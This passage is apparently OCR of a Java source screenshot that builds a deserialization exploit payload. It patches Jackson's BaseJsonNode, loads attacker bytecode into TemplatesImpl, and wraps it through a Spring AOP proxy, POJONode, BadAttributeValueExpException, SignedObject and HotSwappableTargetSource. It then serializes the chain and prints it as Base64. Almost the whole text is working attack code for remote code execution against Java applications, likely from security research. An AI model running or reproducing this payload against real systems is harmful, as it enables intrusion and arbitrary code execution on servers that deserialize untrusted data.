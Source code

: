 ```plain
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();


        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
        Templates templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{payloads});
        setFieldValue(templatesImpl, "_name", "aaaa");
        setFieldValue(templatesImpl, "_tfactory", null);

        POJONode po1= new POJONode(makeTemplatesImplAopProxy(templatesImpl));
        BadAttributeValueExpException ba1= new BadAttributeValueExpException(1);
        setFieldValue(ba1,"val",po1);

        KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject( ba1, privateKey, signingEngine);

        POJONode jsonNodes = new POJONode(1);
        setFieldValue(jsonNodes,"_value",signedObject);
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(jsonNodes);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(new XString("1"));
        HashMap hashMap = makeMap(hotSwappableTargetSource1, hotSwappableTargetSource2);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        String res = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(res);
    }

    public static Object makeTemplatesImplAopProxy(Templates templates) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static HashMap<Object, Object> makeMap (Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
```